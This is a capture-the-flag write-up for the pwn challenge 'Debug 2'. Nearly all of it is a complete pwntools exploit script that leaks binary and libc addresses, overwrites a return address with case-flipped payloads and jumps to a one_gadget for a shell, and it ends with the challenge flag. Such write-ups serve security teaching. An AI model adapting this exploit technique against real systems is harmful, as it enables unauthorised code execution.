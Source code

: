 # Debug 2

Author: `FlamePyromancer`

My friends gave me some advice to fix my code because apparently there were "glaring security flaws". Not sure what they meant, but now my code is more secure than ever!

## Solution

Identical to author solution, we leak elf then leak libc and use a one_gadget to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./debug-2')
libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level='debug'

# Converts characters in payload based on character conversion
def convert(a):
    x = bytearray(a)
    for i in range(len(x)):
        if (x[i] >= 65 and x[i] <= 90):
            x[i] = x[i]+32
        elif (x[i] >= 97 and x[i] <= 122):
            x[i] = x[i]-32
    return x


#p = remote("ctf.cybr.club", 443, ssl=True, sni="debug-2")
p = remote('localhost', '1337')

# printf of string gives us leak while also overwriting ret address
partial = cyclic(88) + b"\xdd"

p.sendlineafter(b"3: Exit\n", b"1")
p.sendafter(b"string (max length of 69 characters):\n", partial)
p.recvuntil(b"VAAA")

# parse leak
x = p.recvline()[:-1][::-1].hex()
log.info("leak of menu() call in main(): " + x)

elf.address = int(x, 16) - 0x00000000000013dd
log.info("Main address: " + hex(elf.sym["main"]))

# repeat to touch lib
payload = cyclic(88) + convert(p64(elf.sym["menu"] + 1))

p.sendlineafter(b"3: Exit\n", b"1")
p.sendafter(b"string (max length of 69 characters):\n", payload)

# leak libc
payload = cyclic(88) + b'\x94'

p.sendlineafter(b"3: Exit\n", b"1")
p.sendafter(b"string (max length of 69 characters):\n", payload)
p.recvuntil(b"VAAA")
x = p.recvline()[:-1][::-1].hex()
log.info("leak of __libc_start_call_main+228: " + x)

libc.address = int(x, 16) - 228 - 0x0000000000023fb0
log.info("Libc address: " + hex(libc.address))

# one_gadget is required since we can only overwrite ret addr
one_gadget = libc.address + 0x449d3

payload = cyclic(88) + convert(p64(one_gadget))

p.sendlineafter(b"3: Exit\n", b"1")
p.sendafter(b"string (max length of 69 characters):\n", payload)

p.interactive()
```

flag:
`gigem{f1x3d_d3buG6iN_y3t_st1Ll_f1aWeD_3da42ce3}`
